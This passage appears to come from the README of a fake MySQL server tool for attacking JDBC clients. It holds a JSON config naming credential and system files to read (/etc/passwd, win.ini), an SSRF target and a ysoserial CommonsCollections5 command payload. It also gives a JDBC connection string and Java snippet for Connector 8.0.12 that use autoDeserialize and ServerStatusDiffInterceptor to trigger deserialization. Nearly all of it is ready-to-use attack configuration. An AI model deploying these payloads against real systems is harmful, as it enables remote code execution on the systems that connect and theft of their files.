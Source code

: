 ```json
{
    "config":{
        "ysoserialPath":"ysoserial-master-SNAPSHOT.jar", //ysoserial.jar包的路径，将其放置在项目根目录下即可
        "javaBinPath":"/Library/Java/JavaVirtualMachines/jdk1.8.0_181.jdk/Contents/Home/bin/java", // 执行ysoserial的Java路径，主要针对多版本Java环境，如果没有多版本，写java即可
        "fileOutputDir":"./fileOutput/",
        "displayFileContentOnScreen":true,
        "saveToFile":true
    },
    "fileread":{
        "win_ini":"c:\\windows\\win.ini",
        "win_hosts":"c:\\windows\\system32\\drivers\\etc\\hosts",
        "win":"c:\\windows\\",
        "linux_passwd":"/etc/passwd",
        "linux_hosts":"/etc/hosts",
        "index_php":"index.php",
        "ssrf":"https://www.baidu.com/",
        "__defaultFiles":["/etc/hosts","c:\\windows\\system32\\drivers\\etc\\hosts"]
    },
    "yso":{
        "Jdk8u181":["CommonsCollections5","open -a Calculator.app"] // key为用户名(可随意写)，value分别为执行ysoserial的参数，如执行命令为java -jar ysoserial.jar value[0] value[1]
    }
}
```

### 8.0.12

针对`8.0.12` payload需要使用`ServerStatusDiffInterceptor`触发

```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=Jdk8u181
```

```java
String Driver = "com.mysql.cj.jdbc.Driver";
String user = "Jdk8u181";
String password = "xxxx";
String url = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor";
Class.forName(Driver);//1.加载启动
Connection conn = (Connection) DriverManager.getConnection(url, user, password);
```
